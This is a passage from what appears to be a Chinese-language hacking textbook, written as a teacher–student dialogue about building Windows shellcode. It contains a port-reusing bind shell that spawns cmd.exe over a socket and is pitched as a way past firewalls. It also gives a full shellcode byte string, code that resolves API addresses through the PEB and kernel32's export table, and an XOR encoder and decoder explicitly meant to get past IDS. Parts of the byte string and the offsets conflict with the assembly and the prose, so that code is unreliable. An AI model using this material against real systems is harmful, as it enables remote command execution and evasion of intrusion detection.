“呵呵，是的，我们一鼓作气，完成这个 Shellcode。该第四个函数了：`bind(listenFD, (sockaddr *)&server, sizeof(server));`，方法同上，第二个参数 `&server` 是一个 `sockaddr_in` 结构的地址，而且里面还有对端口、地址的设置，就是这三句。”

```c
server.sin_family = AF_INET;
server.sin_port = htons(21);
server.sin_addr.s_addr = inet_addr("127.0.0.1");
```

“怎么转换比较简单呢？还是借助 C 程序的调试过程！在调试时，从 debug 工具栏上调出 memory 窗口，输入 server，就可以看到 server 这个结构的值，在赋值完毕之后，变成 `02 00 00 15 7F 00 00 01`，如图 6-11。”

“而且通过这个过程还知道第一个 `0002` 是 `AF_INET`，`1500` 是 `htons(21)`，最后的 `0100007F` 是 `inet_addr("127.0.0.1")` 得到的值，是 `sockaddr_in` 真实的结构啊。我们依着葫芦画瓢，模仿着构造出 server 的值，并把地址给 `esi` 保存，代码如下。”

图 6-11

```asm
push 0x0100007F
push 0x15000002
mov esi, esp ; 构造 server 的值，并把地址给 esi
```

“有了 server 参数后，就可以执行 bind 函数了。”

```asm
push 10h                ; 第三个参数 sizeof(server)=10h
push esi                ; 第二个参数 server 的地址
push ebx                ; 第一个参数 socket
call dword ptr [ebp+0x20] ; [ebp+0x20] 中存着 bind 的地址，执行
```

“大家可能都看出来了，其实参数压的都是真实的，所以只要保证 `call` 的函数地址是真正的地址，就可以直接用编译器生成的代码了，这为后面 C 程序直接生成 Shellcode 打下了一个伏笔。好了，接下来的 `listen(listenFD, 2)` 就太简单了，实现如下。”

```asm
push 2                  ; 第二个参数 2
push ebx                ; 第一个参数 socket
call dword ptr [ebp+0x24] ; [ebp+0x24] 中存着 listen 的地址，执行
```

“随后的 `accept(listenFD, (sockaddr *)&server, &iAddrSize)` 也能轻松搞定，为。”

```asm
push 10h                ; 构造 iAddrSize，地址为 esp
push esp                ; 第三个参数 &iAddrSize
push esi                ; 第二个参数 &server
push ebx                ; 第一个参数 socket
call dword ptr [ebp+0x28] ; [ebp+0x28] 中存着 accept 的地址，执行
```

“当然，因为后面要用到 accept 后产生的 socket，所以把它保存在 ebx 中：`mov ebx, eax`；把新 socket 保存在 ebx 中。这样就到了最关键的、决定成败的最终 BOSS——`CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation)`。”

“哇，晃眼一看，好多参数，真吓人。”小菜们说道。

“不用怕，纸老虎而已，参数基本上都是 0 和 1，实际要构造的只有三个，那就简单了。0 和 1 就不说了，直接 `push` 就可以。`&ProcessInformation` 也简单，因为不用赋初值，随便找个不用的地址也就可以。`cmdLine` 也好解决，`cmd` 就是 `63 6D 64 00`，构造在 `ebp+0x32` 中，把 `ebp+0x32` 的地址当参数压就可以了。只剩下 `&si`，对它的赋值有几句话。”

```c
ZeroMemory(&si, sizeof(si));
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
// 设置输入输出句柄为 socket
si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
```

“就是先清零，再设置 flag 和句柄。我们在调试过程中，仔细地、慢慢地、温柔地数，最后可以知道 `si+2Ch` 的地方为 flag 地址；`si+38h`、`si+3Ch`、`si+40h` 的地方为输入输出和错误句柄。那么在汇编中构造 si 就是。”

```asm
lea edi, [esp]
mov word ptr [edi+2Ch], 0x0101 ; si.dwFlags = 0x0101
mov [edi+38h], ebx             ; si.hStdInput
mov [edi+3Ch], ebx             ; si.hStdOutput
mov [edi+40h], ebx             ; si.hStdError = socket
```

“最后实现的 CreateProcess 如下。”

```asm
; 暂存 cmd.exe 字符串于 ebp+0x32 中
mov dword ptr [ebp+0x32], 0x00646D63

lea eax, [esp+0x44]        ; 最后一个参数 &ProcessInformation
push eax
push edi                   ; &si
push 0                     ; 0
push 0                     ; 0
push 0                     ; 0
push 0                     ; 0
push 1                     ; 1
push 0                     ; 0
lea eax, [ebp+0x32]
push eax                   ; "cmd"
push 0                     ; 0
call [ebp+0x4]             ; [ebp+0x4] 中存着 CreateProcessA 的地址，执行
```

“好了，把汇编连起来，得到 `ReBindASM.cpp` 验证一下，成功了，如图 6-12。”

“前面讲过，在得到汇编后，可以进行调试，然后把汇编对应的机器码一个个地抄下来。这里当然也可以如此，但代码太多了，一个个地抄也太郁闷了吧……我们换个方法。进入调试，在调试进入我们的汇编时，在 memory 窗口中输入 `eip`，这样出现的就是我们 Shellcode 在内存中的值，如图 6-13。”

“这下简单了，把 Shellcode 从开始到结束粘下来，删掉多余的字符，把空格替换成 `\x`，就得到重用端口、突破防火墙的 Shellcode 如下。”

```c
char Shellcode[] =
"\x55\x8B\xEC\x40\x8B\xEC\xC7\x45\x04\x68\x1B\xE4\x7A\xC7\x45\x08\xDA\x41\xA2\x71\xC7\x45\x16\x8B\x35\xA2\x71\xC7\x45\x20\xCE\x3E\xA2\x71\xC7\x45\x24\xE2\x5D\xA2\x71\xC7\x45\x28\xD7\x86\xA2\x71\x81\xEC\x00\x22\x00\x64\x68\x02\x02\x00\x00\xFF\x55\x08\x81\xC4\x00\x22\x00\x64\x00\x6A\x00\xBA\x00\x6A\x06\x6A\x01\x6A\x02\xFF\x55\x12\x8B\xD8\xBB\x01\x00\x00\x00\x50\x8B\xF4\x6A\x04\x50\x6A\x04\x68\xFF\xFF\x00\x53\xFF\x55\x16\x68\x7F\x00\x00\x01\x68\x02\x00\x15\x88\xFF\x4A\x10\x56\x53\xFF\x55\x20\x6A\x02\x53\xFF\x55\x24\x6A\x70\x54\x56\x53\xFF\x55\x28\x8B\xD8\x81\xEC\x80\x00\x00\x00\x8D\x3C\x24\x33\xC0\x68\x80\x00\x00\x00\x59\xF3\xAA\x8D\x3C\x24\x66\xC7\x47\x2C\x01\x01\x89\x5F\x38\x89\x5F\x3C\x89\x5F\x40\xC7\x45\x32\x63\x6D\x64\x00\x8D\x44\x24\x44\x50\x57\x6A\x00\x6A\x00\x6A\x00\x6A\x01\x6A\x00\x6A\x00\x8D\x45\x32\x50\x6A\x00\xFF\x55\x04";
```

“在 main 函数里面，嵌入如下代码。”

```c
lea eax, Shellcode
call eax
```

“就可以执行 Shellcode 了。我们测试一下，成功，如图 6-14。”

“这样我们就亲自打造出了一个 Shellcode，而且这个 Shellcode 在外面是绝对找不到的哦，呵呵，大家知道为什么吗？”老师温柔地说道。

“哦？为什么？”

“因为这个 Shellcode 根本不能用！”豆大的汗珠从小菜们的头上滴下……

“呵呵，不是，用是可以用的，但还不能通用，大家想想，我们用的函数地址都是绝对地址，因此只能在我们这个版本下使用，其它版本都会失败的。”

“哦！原来是这样啊！”

“要解决这个问题，就需要动态获得函数的地址了。”

### 6.1.3 打造通用的完美 Shellcode

老师说道：“Shellcode 的执行过程就是调用函数的过程。Windows 下调用函数分为两步，一是参数入栈，二是 `call` 函数地址。那大家想想，我们前面写的 Shellcode 各系统版本间不能混用，其原因是出在哪里呢？”

“原因……原因当然是出在系统版本不同啊！”小茉们回答道。

“晕，那究竟是参数入栈不同，还是调用的函数地址不同呢？”老师提示道。

“哦，参数入栈部分看起来是一样的，那应该是各个版本下函数的地址不同吧。”同学们分析道。

“是的，系统不同，同一个函数的地址也就不同。比如 Win2000 和 WinXP，或者中文版 XP 和英文版 XP，LoadLibrary 函数的地址都不同。而且，同样的系统、同样的语言版本，SP 补丁不同，函数的地址也不同。”

“哦，Shellcode 的通用性，就是要解决函数地址的通用性吧！”

“非常正确！”

“难道每个函数，都存在各版本通用的隐藏地址？我们直接调用隐藏地址就行了？”小茉想起了隐藏任务。

“哎哟，这个我不知道，可能要问比尔·盖茨才知道哦！”老师笑着说，“但系统可不像游戏。除了偶尔的函数指针外，其它函数的地址都如履包换的——绝对不同！”

“呃，那怎么完成通用的呢？”

“嗯，我提示一下，在 Shellcode 的编写中，我们曾用过 `GetProcAddress` 来获得其它函数的地址……”

“我们不使用固定的函数地址，而是在 Shellcode 中先用 `GetProcAddress` 获得函数的地址，获得当时所在系统上的地址，然后再调用它！”

“很好！但除了 `GetProcAddress` 外，还需要知道 `LoadLibrary` 的地址，然后就可以利用这两个函数来动态获得其它函数的地址并存起来，以后调用函数的时候，就使用保存起来的地址，从而完成具有通用性的 Shellcode。”

“哦，明白了！思路应该这样吧，我们动态定位函数的地址再调用。”

学生们画出了示意图，如图 6-15。

“对！就是这样的！”老师看了看，满意地说道。

“那么，要如何获得 `GetProcAddress` 和 `LoadLibrary` 的地址呢？”老师又问道。

大家又愣住了，“是啊，怎么获得呢？好像这两个函数的地址并没有宇宙通用版啊！”

“啊啊，大家能想到这里也很不错了，这也是早期 Shellcode 卡住的地方。”老师说道，“当人们对地球、对火星、对宇宙、对 Windows 系统不断地深入认识后，终于有了解决的方法。”

“哦？这么厉害，什么方法？”

“就是利用 Windows 的系统结构来获得 `GetProcAddress` 和 `LoadLibrary` 函数的地址。`GetProcAddress` 函数位于 `kernel32.dll` 中，是 `kernel32.dll` 的引出函数，那么我们搜索 `kernel32.dll` 的引出表就一定会找到 `GetProcAddress` 函数的地址。但首先 `kernel32.dll` 的地址在哪儿呢？不同的系统都一样吗？不同的系统，`kernel32.dll` 的地址也不一样，但我们可以通过 Windows 的系统结构来获得 `kernel32.dll` 的基址。获得 `kernel32.dll` 地址的方法很多，也经历了发展的过程，最早是 yuange 提出的暴力搜索法，但随着斗转星移、时间的发展，有了更简单优雅的搜索方法，利用 PEB 结构来获得 `kernel32.dll` 的地址。”

“哦，这是最先提出来的呢？”

“这个，这个……我也不知道，估计最早提出来的时候，我连电脑为何物都还不知道呢。”老师说道，“我看国内 jne0 和 scz 都有过详细的分析。简单来说，利用 PEB 获得 `kernel32.dll` 的原理如下：

- `fs` 寄存器指向 TEB 结构；
- 在 `TEB+0x30` 地方指向 PEB 结构；
- 在 `PEB+0x0C` 地方指向 `PEB_LDR_DATA` 结构；
- 在 `PEB_LDR_DATA+0x1C` 地方就是一些动态链接库的地址了，如第一个指向 `ntdll.dll`，第二个就是 `kernel32.dll` 的地址。

其结构示意图如图 6-16 所示。”

“更直观点，汇编代码的实现如下：”

```asm
mov eax, fs:0x30        ; PEB 的地址
mov eax, [eax + 0x0C]   ; Ldr 的地址
mov esi, [eax + 0x1C]   ; Flink 地址
lodsd
mov eax, [eax + 0x08]   ; eax 就是 kernel32.dll 的地址
```

## 第六章：Shellcode 编程基础

“老师，为什么给出的偏移量正好指向想要的结构呢？”小菜问道。

“因为……这是因为比尔·盖茨当初就是这么设计来着。”

“那比尔·盖茨为什么要这样设计呢？”小菜又问道。

“那可能是由于他生活的环境和个人的性格造成的吧！”

“哦？是什么环境和性格造成了他这么设计呢？”小菜要打破砂锅问到底了。

“噢！那是美国的诞生和文化造就了那样的环境和性格吧！好了，要完全解决这个问题，我们就只有使用回溯法，回溯啊，回溯，回溯到亿万年前，宇宙大爆炸的时候，可能某个尘埃的偏移加速度的值，导致了今天有一位比尔·盖茨，可能那个尘埃的某次碰撞变向，导致了比尔·盖茨采用这样的结构设计。”

“嗯……”大家无语了。

“我们还是回到地球，看看更关心的东西。小小测试一下利用 PEB 查找 kernel32 地址的汇编实现。在 VC 中用 __asm 关键字嵌入汇编，调试，得到本机上的 kernel32.dll 的地址为 0x77E40000，果然正确，如图 6-17。”

“哇！EAX 真的是 77E40000 啊！实在是太方便了。”

“找到了 kernel32.dll 的地址后，我们奔向想要的 GetProcAddress 函数的地址。方法就是利用 Kernel32.dll 中的引出表！”


> **小知识**：在 Windows 系统下，每个 dll 都有引出表，指明该 dll 里面实现的函数有哪些，名称是什么，地址为多少。这样外部程序可以方便地调用 dll 里实现的函数，而不必关心实现的具体细节。

“每个 dll 都有引出表，这样外部程序可以调用 dll 里实现的函数，而不必关心实现的细节。”老师接着说，“而 GetProcAddress 是在 kernel32.dll 里面实现的，所以我们可以通过查找 kernel32.dll 的引出表找到 GetProcAddress 函数。”

“查找引出表？什么意思？”

“这就要解释一下引出表和我们找地址的过程了，有点麻烦了，大家可要集中点精神啊！首先，引出表的结构如下。”

```c
typedef struct _IMAGE_EXPORT_DIRECTORY
{
    Characteristics        4
    TimeDateStamp          4
    MajorVersion           2
    MinorVersion           2
    Name                   4    // DLL 模块名名字
    Base                   4    // 基数，加在函数地址数组的索引值
    NumberOfFunctions      4
    NumberOfNames          4
    AddressOfFunctions     4    // 指向函数地址数组
    AddressOfNames         4    // 函数名字的指针地址
    AddressOfNameOrdinals  4    // 指向输出序号数组
}
```

| 字段类型 | 字段名 | 说明 |
|---|---|---|
| DWORD | Characteristics | 未说明用途，当前还没有定义，默认为 0 |
| DWORD | TimeDateStamp | dll 模块创建时间，这个字段与 IMAGE_NT_HEADERS.FileHeader.TimeDateStamp（GMT 时间，从 1970 年 1 月 1 日开始计算的秒数）有相同的定义 |
| WORD | MajorVersion | 输出表的主版本号，未使用，记为 0 |
| WORD | MinorVersion | 输出表的次版本号，未使用，记为 0 |
| DWORD | Name | 指向一个 ASCII 字符串的 RVA，这个字符串是该输出表对应的 dll 名字（例如：KERNEL32.dll） |
| DWORD | Base | 这个字段会影响每个函数输出表的起始序号（基数）。正常情况下，这个位是 1，但是并不意味着地址值减去它就是索引值。它会作为 AddressOfNameOrdinals 这个数组中的值使用，用于定位 AddressOfFunctions 中函数的序号。 |
| DWORD | NumberOfFunctions | EAT 中的项目总数。按一些书面说法，表明用这个字段记录该输出表函数数据结构总数。 |
| DWORD | NumberOfNames | 表示该表名称表（ENT）里的项目数。这个值总是不大于 NumberOfFunctions 数值。小于的情况发生在只写导出序号表条目时，导致对应的某些导出只有序号记录。 |
| DWORD | AddressOfFunctions | EAT 中的 RVA。EAT 是一个 RVA 数组，数组中的每一项对应于一个被输出的函数序号。 |
| DWORD | AddressOfNames | ENT 中的 RVA。ENT 是一个指向 ASCII 字符串的 RVA 数组，每一个 ASCII 字符串对应于一个被输出的项目。这个表是按字母序的，所以 ASCII 字符串是按顺序排列的。还允许一个被输出的序号同时对应多个名字。 |
| DWORD | AddressOfNameOrdinals | 指出导出序号表的 RVA。这个表是字节序的。这个表将 ENT 中的项索引映射到导出项目中相应的函数地址索引。 |

“每个字段的解释如图 6-18 所示。”

“结构虽然复杂，但和获得函数地址相关的只是最后几项，举个具体的例子来看，如图 6-19。”

- NumberOfFunctions 字段：为 AddressOfFunctions 指向的函数地址数组的个数，在这个例子中是 3；
- NumberOfNames 字段：为 AddressOfNames 指向的函数名称数组的个数，这里是 2；
- AddressOfFunctions 字段：指向模块中所有函数地址的数组；
- AddressOfNames 字段：指向模块中所有函数名称的数组；
- AddressOfNameOrdinals 字段：指向 AddressOfNames 数组中函数对应序数的数组。

“我们查找函数地址时，先在函数名称数组中找到需要的函数名，然后在函数序号数组中得到对应的函数序号，最后根据这个序号，在函数地址数组中得到对应的地址值。”

“好抽象啊，头晕，头晕。老师，给个例子吧！”小菜嚷道。


“比如我们在那个引出表中查找 MyFunc3 函数的地址，先从 AddressOfNames 开始依次在函数名数组中查找与 MyFunc3 相同的项，从而得到 MyFunc3 在函数名数组中是第几个函数。在上图例子中，MyFunc3 是第二个函数。然后我们从 AddressOfNameOrdinals 开始，在函数序号数组中查找 MyFunc3 函数对应的序号。函数序号数组中，第二个函数对应的序号值是 3。最后根据序号 3，从 AddressOfFunctions 开始的函数地址数组中查找 MyFunc3 函数的地址。函数地址数组中，第 3 项的值是 0x400303。我们就得到 MyFunc3 函数的地址是 0x400303。”

“哦，明白了，是这样啊！但是，输出表在哪儿呢？”

“呵呵，知道了 kernel32.dll 的基地址后，其 PE 头部偏移在 kernel32.dll 基址 + 0x3C 的地方，而输出表的位置在 kernel32.dll 基地址 + PE 头部地址 + 0x78 的地方。而 kernel32.dll 的基地址，我们刚刚学会了从 PEB 中获得，预备工作就都全部完成了。我们看看搜索函数地址流程吧。”老师说道。

- a、通过 TEB/PEB 获取 kernel32.dll 基址
- b、在（kernel32 基址 + 0x3C）处获取 PE 头部基址
- c、在（kernel32 基址 + PE 头部基址 + 0x78）处获取引出表地址（后面为描述方便简称 export）
- d、在（kernel32 基址 + export + 0x1C）处获取 AddressOfFunctions、AddressOfNames、AddressOfNameOrdinals
- e、搜索 AddressOfNames，确定 “GetProcAddress” 所对应的 index
- f、index = AddressOfNameOrdinals[index]；函数地址 = AddressOfFunctions[index]

“比如我们想查找 GetProcAddress 的地址，就在函数名称数组中搜索 GetProcAddress 的名称，找到后根据编号在序号数组中得到它对应的序号值，最后根据序号值，在地址数组中提取出它的地址。其汇编代码如下。”

```asm
mov     ebp, 0x77E40000      ; kernel32.dll 基址
mov     eax, [ebp+30h]       ; eax = PE 头部
mov     edx, [ebp+eax+78h]
add     edx, ebp             ; edx = 引出表地址
mov     ecx, [edx+18h]       ; ecx = 输出函数的个数
mov     ebx, [edx+20h]
add     ebx, ebp             ; ebx = 函数名地址 AddressOfNames
search:
dec     ecx
mov     esi, [ebx+ecx*4]
add     esi, ebp             ; 依次找每个函数名称

GetProcAddress:
mov     eax, 0x50746547
cmp     [esi], eax           ; 比较 "PteG"
jne     search
mov     eax, 0x41636f72
cmp     [esi+4], eax         ; 比较 "Acor"
jne     search

; 如果是 GetProcA，表示在 AddressOfNames 中找到了
mov     ebx, [edx+24h]
add     ebx, ebp             ; ebx = 序号数组地址 AddressOfNameOrdinals
mov     cx, [ebx+ecx*2]      ; ecx = 计算出的序号值
mov     ebx, [edx+1Ch]
add     ebx, ebp             ; ebx = 函数地址的起始位置 AddressOfFunctions
mov     eax, [ebx+ecx*4]
add     eax, ebp             ; 利用序号值，得到 GetProcAddress 的地址
```

“哇！太妙了！”大家说道。

“我们把获得 Kernel32.dll 地址部分和获得函数地址部分都合起来，就可以动态地得到 GetProcAddress 函数的地址，而且与系统版本是无关的。在动态得到 GetProcAddress 函数的地址后，我们再使用它来动态获得其他函数的地址，这样生成的 Shellcode 就是通用的了。”

“那我们把突破防火墙的 Shellcode 改为通用版本吧。”小菜们迫不及待地说道。

“好！上次的代码是将固定的函数地址直接放在数组中，等待后面调用。我们修改时，只要在前面加上一段——动态地获得各函数地址，然后再存入数组中就可以了。具体说来，原来的实现是这样的，直接存放地址值。”

```asm
; 原来的实现，把要用到的函数地址先存起来
mov eax, 0x77e5727d
mov [ebp+4], eax    ; CreatePipe
mov eax, 0x77e41bb8
mov [ebp+8], eax    ; CreateProcessA
```

“而现在，我们首先加上一段前面的动态获取 GetProcAddress 函数地址的代码，`mov [ebp+40h], eax`，把 GetProcAddress 的地址存在 `ebp+40h` 中，再存入数组中。然后再利用 GetProcAddress 查找各个函数的地址。比如首先是 LoadLibrary 的地址，有了 GetProcAddress 函数地址后，就可以查找 LoadLibrary 的地址了。”

```asm
push 0x0
push dword ptr 0x41797261
push dword ptr 0x7262694c
push dword ptr 0x64616f4c   ; 在堆栈中构造 LoadLibraryA 字符串
push esp
push edi
call [ebp+40h]              ; GetProcAddress(kernel32基址, "LoadLibraryA")
mov [ebp+44h], eax          ; LoadLibraryA，把 LoadLibraryA 的地址存在 ebp+44h 中
```

“GetProcAddress 和 LoadLibrary 两个函数的地址都有了，开始查找其他函数的地址了，比如 CreateProcessA 的地址。第一个查找 CreateProcessA 的地址，也是在 Kernel32 中的。”

```asm
push dword ptr 0x00004173
push dword ptr 0x7365636f
push dword ptr 0x72506572
push dword ptr 0x61657243
push esp
push edi
call [ebp+40h]
mov [ebp+4], eax            ; CreateProcessA 地址
```

老师解释道：“相当于执行 `GetProcAddress(kernel32基址, "CreateProcessA")`。还是一样，先把参数 CreateProcessA 字符串地址和 kernel32 的基址值依次入栈，然后 call GetProcAddress 函数的地址——我们之前把它存在 `ebp+40h` 的地方，所以 `call [ebp+40h]`，就执行了 `GetProcAddress(kernel32基址, "CreateProcessA")` 这句话。EAX 为返回值——CreateProcessA 函数的地址，我们把它存在对应的 `ebp+4` 的地方。”

“哦！”同学们明白了，“后面的函数也是这样获取哦？”

“但要注意，像 socket 一类套接字函数的地址不是在 kernel32.dll 中，而是在 Ws2_32.dll 中。所以我们要先 `LoadLibrary("Ws2_32.dll")` 获得 Ws2_32.dll 的基址，再用 `GetProcAddress(Ws2_32.dll基址, "socket")` 来获取类似套接字函数的地址。具体地说来，查找 Ws2_32 中的函数地址，首先是加载 Ws2_32 这个 dll，`LoadLibrary("Ws2_32.dll")`。”

```asm
push dword ptr 0x00003233
push dword ptr 0x5f327357
push esp
call [ebp+44h]              ; LoadLibrary(Ws2_32)
mov edi, eax
```

“然后再去找 Ws2_32.dll 中的各个函数地址，并对应保存下来。”

```asm
查找 WSAStartup 地址
push dword ptr 0x00007075
push dword ptr 0x74726174
push dword ptr 0x53415357
push esp
push edi
call [ebp+40h]
mov [ebp+8], eax            ; WSAStartup

查找 WSASocketA 地址
push dword ptr 0x00004174
push dword ptr 0x6b636f53
push dword ptr 0x53415357
push esp
push edi
call [ebp+40h]
mov [ebp+12h], eax          ; socket

查找 setsockopt 地址
push dword ptr 0x00007470
push dword ptr 0x6f6b636f
push dword ptr 0x73746573
push esp
push edi
call [ebp+40h]
mov [ebp+16h], eax

查找 bind
```


“只用加上这段动态获取函数的代码，而之后的代码可以完全不变。”

“完全一模一样吗？”

“是的！完全一模一样！”老师肯定地说道，“我们连起来测试一下，完整的代码见 ReBindASM.cpp，如图 6-20，也复用端口，telnet 成功！”

“欢迎大家来到——宇宙通用版！Welcome to the earth！”老师说道。

“哇！太 cool 了。”教室里一阵欢腾。

“接下来大家在内存里提取出 Shellcode 就可以了。”老师笑道。

“嗯，是啊，明白了方法，不费多少功夫把代码实现出来，这是一件很惬意的事。”

“对。不过这样实现的通用版本也实在长了点，”老师打量了下生成的 Shellcode 代码说道，“我们可以采取各种方法优化一下，变得短小点。不过在优化之前，我们先来看看 Shellcode 另一个重要的方面——编码。”

## 6.2 Shellcode 编码

“为什么要讲编码呢？”小菜们问道。

“因为我们在利用漏洞的时候，不一定会成功，原因可能有多方面的。”老师说道，“我们不考虑对方打了补丁，没有漏洞的情况，也不考虑网络通信问题如防火墙阻断等。只从编写 exploit 的技术角度出发，分析攻击程序会失败的原因。复习一下，我们编写攻击程序时，有三大步骤，是哪三大步呢？”

“第一，覆盖点的定位；第二，Shellcode 的编写；第三，跳转到 Shellcode 中。”大家已经烂熟于胸，一口答了出来。

“哈哈，很好嘛！”老师满意地说道，“我们就根据这三点，来分析攻击程序的失败原因和造成原因。失败原因一，覆盖点偏差。这有可能是漏洞公告上分析的版本，和大家实际攻击的版本不同造成的。也有些软件，安装目录不同，其漏洞的覆盖点位置也不同。还有，大家在写 exploit 的时候，有可能自己数错了覆盖的字符个数，这也是初学者经常犯的错误。”

“嗯，有些时候累了，就是容易数错啊。”同学们说道。

“要解决这个问题就得仔细了，认真看清楚公告的内容，调试清楚到覆盖点的字节数，数清楚覆盖字符的个数。失败原因二，覆盖的跳转地址错误。”老师继续分析，“有些公布出来的程序，为了避免滥用，给的只是针对某个系统的跳转地址，甚至有的程序连地址都没有，只有 0xAAAAAAAA 或 0xXXXXXXXX 这样的形式在覆盖点位置，这就要我们自己去修改。当然，有时候昏头了，我们把 0x7FFA4512 在字符串里直接写成 ‘\x7F\xFA\x45\x12’，这也是错误的，应该是 ‘\x12\x45\xFA\x7F’，这一点也要小心。”

> 小知识：为什么 0x7FFA4512 要写成 “\x12\x45\xFA\x7F”？

在 Intel 系列的计算机下，数据的排列规则是高位数据在高地址，低位数据在低地址。所以 7F 要放在最高地址——也就是 “\x12\x45\xFA\x7F” 的最后，而 12 是最低位数据，因此要放在最前面——最低地址。

“失败原因三，Shellcode 被截断或改写。”老师强调道，“这点是最常见的问题，随时都可能遇到！”

“哦？Shellcode 被谁改写了呢？”小菜们疑惑地问道。

“被目标程序自己！”老师回答道，“任何目标程序都有一些特殊字符不能使用，比如 IIS 里面不能有”0x20，有的话就会把后面的数据截断。而 Cmail 的漏洞不能有大写字母，有的话会自动转为小写字母。这样我们的 Shellcode 有可能被截断或替换，当然完不成攻击的功能了。”

“当遇到这种情况的时候，那就需要对 Shellcode 进行编码变换吧。”小菜们明白了。

“对！”老师回答道，“但编码的用处是各方面的。”

### 6.2.1 编码的用处

#### 一、避免截断

“我们对 Shellcode 编码的第一个用处就是避免 Shellcode 里面出现‘\x00’，从而被截断。这里再说一次，字符串是以 ASCII 码‘\x00’为结束标志的，当我们定义字符串时，编译器会自动在末尾添加一个‘\x00’。比如 char name[] = ‘ww0830’，其实就是 char name[] = ‘ww0830\x00’。这样当用 strcpy、strlen 等对字符串操作的函数时，会以‘\x00’来判别字符串的结束位置。如果我们的 Shellcode 中有‘\x00’，那很显然，目标程序用 strcpy 进行数据拷贝时，就会在 Shellcode 中的第一个‘\x00’处结束。我们的 Shellcode 就不完整，实现不了我们想要的功能。注意，char name[] = ‘ww0830’里面的‘0’和 ASCII 码‘\x00’是不一样的。‘ww0830’里面的‘0’对应的 ASCII 码是‘\x30’，是不会被截断。这是初学者常见的问题。”

“原来是这样啊，以前一直有点迷糊的。”大家纷纷说道。

“所以如果 Shellcode 中有‘\x00’，那我们肯定需要把它去掉，方法就是对 Shellcode 进行编码了。但编码不仅仅是这个作用，还有其它的功能。”

#### 二、符合目标程序的要求

“我们对 Shellcode 编码的第二个用处就是使其符合目标程序对字符的规范。比如，攻击 Foxmail 的 Shellcode 里面不能有斜线——‘/’，攻击 IIS 的 Shellcode 里面不能有空格——‘\x20’，所以针对不同的目标程序对 Shellcode 的要求也不同，我们也需要通过编码来避免。如果说编码避免‘\x00’是 Shellcode 的共性外，那避免目标程序的特殊字符要求就是个性了。”

“共性，个性，那还有特性吗？”小菜们问道。

“当然有啊，我们还可以通过给 Shellcode 编码，使其突破 IDS！”

#### 三、突破 IDS

“我们对 Shellcode 编码的第三个用处，就是使其突破 IDS 的探测！”老师说道。

> **小知识：IDS 简介**
>
> IDS（intrusion detection system）即入侵检测系统，这是一种新兴的但仍在继续发展中的技术。或者监测主机日志、进程、会话，以及系统文件的变更，或者监测主机／网络的网络通信信息，以发现对正在进行的主机入侵行为。其工作流程大致分为以下几个步骤：信息收集、信号分析、模式匹配、统计分析、实时记录、报警或有限度反击。IDS 的根本任务是对入侵行为作出适当的反应，这些反应包括详细日志记录、实时报警和防火墙联动，甚至作有限度的反击等。

“所以，我们对 Shellcode 编码，可以一定程度上躲开 IDS 的探测，达到攻击的效果。”

### 6.2.2 异或大法

“好了，说了这么多，我们还是来看看编码的具体实现吧。”老师说道，“有很多种方法可以对 Shellcode 进行编码，但原理和步骤都是类似的，我们详细讲解最简单和最常用的方法 xor 大法吧。xor 是指异或，异或的运算规则是相同为 0，不同为 1。因为在二进制条件下，每位的取值只有 0 或 1 两种，所以运算的结果如下。”

| Xor | Y | Z |
|---|---|---|
| 0 | 0 | 0 |
| 0 | 1 | 1 |
| 1 | 0 | 1 |
| 1 | 1 | 0 |

“比如 10 xor 7，就会先转化成二进制数 10 = (1010)B，7 = (0111)B；然后每一位对应异或。从低位到高位，运算依次就是 0 xor 1 = 1；1 xor 1 = 0；0 xor 1 = 1；1 xor 0 = 1。因此 10 xor 7 = (1010)B xor (0111)B = (1101)B = 13。”老师写出了答案。

同学们说道：“嗯，怎么用于编码呢？”

“根据运算规则，对某个值 X，密钥 Key，有如下等式成立：X xor Key = Z，Z xor Key = X，也就是 X xor Key xor Key = X。就是说，一个值对同一个数异或两次后，得到的结果为原值。比如 10 xor 7 xor 7，刚才我们已经推出 10 xor 7 = 13，如果再次异或，就是 13 xor 7，又恢复了原来的值 10，计算过程如下。”

“是这样啊，是不是我们选一个 Key，对 Shellcode 进行两次 xor 运算，对它进行编解码呢？”同学们问道。

“就是这样的。”老师回答道，“确切地说，我们选一个 Key，编码是将 Shellcode 和这个 Key 作一次 xor 运算得到 enShellcode，解码嘛……大家想想？”

“那解码就是 enShellcode 和 Key 再作一次 xor 运算，又重新得到 Shellcode。”小菜们高兴地说道。

“非常正确，明白了算法，我们来看看如何实现吧。我们把 Shellcode 数组里的每一个字符 Shellcode[i] 与某一密钥 Key 作异或，就得到了编码后的 enShellcode，保存在 enShellcode 数组中。在 C 语言中，异或操作符是 ^，这里我们选 Key 为 0x97。如果 Shellcode 里面有 0x00，和 0x97 异或后，就会变为 0x97，编码后的 enShellcode 就不会被截断了。”

“那如果 Shellcode 中有 0x97 呢？岂不是和 Key 异或，反而变为 0，被截断了？”小菜问道。

“这个完全有可能。这时候，我们可以把 Key 改成其它值试试。”老师说道，“好了，我们看看编码代码吧。”

```c
#include <string.h>
#include <stdio.h>
#define KEY 0x97
unsigned char Shellcode[] = "\x41\x00\x42\x43";
// 含有\x00的Shellcode

int main()
{
    int i;
    int nLen;
    unsigned char enShellcode[500];
    // 编码后的enShellcode

    nLen = sizeof(Shellcode);
    // 获得Shellcode的长度
    for(i=0; i<nLen; i++)
    {
        enShellcode[i] = Shellcode[i] ^ KEY; // 对每一位Shellcode作xor key编码
        printf("\\x%x", Shellcode[i]);
        printf("\\x%x", enShellcode[i]); // 打印出效果
    }
    return 0;
}
```

“这里我们测试用的 Shellcode 中含有 0x00，但编码后得到的 enShellcode 就不会有了。我们运行，其效果如图 6-22。”

“0x41 变为 d6，0x00 变为 97！果然达到效果了！”同学们说道。

“明白了编码过程，大家来看看解码吧。编码之后，我们得到了 enShellcode，我们还需要一段解码程序 decode，让编码后的 enShellcode 还原成原来的 Shellcode，然后跳过去执行。”老师说道，“有了 decode 和 enShellcode，我们把 decode 放在前面，enShellcode 跟在后面。当然 decode 和 enShellcode 里面不能有非法的字符，否则变换就失去了意义。根据上面的分析，我们只需要将 enShellcode 里面的字符再异或编码用的 Key 就可以了，这里还是 0x97。decode 实现的汇编代码如下。”

```asm
jmp decode_end

decode_start:
    pop edx
    dec edx
    xor ecx, ecx
    mov cx, 0x201

decode_loop:
    xor byte ptr [edx+ecx], 0x97
    loop decode_loop
    jmp decode_ok

decode_end:
    call decode_start

decode_ok:
```

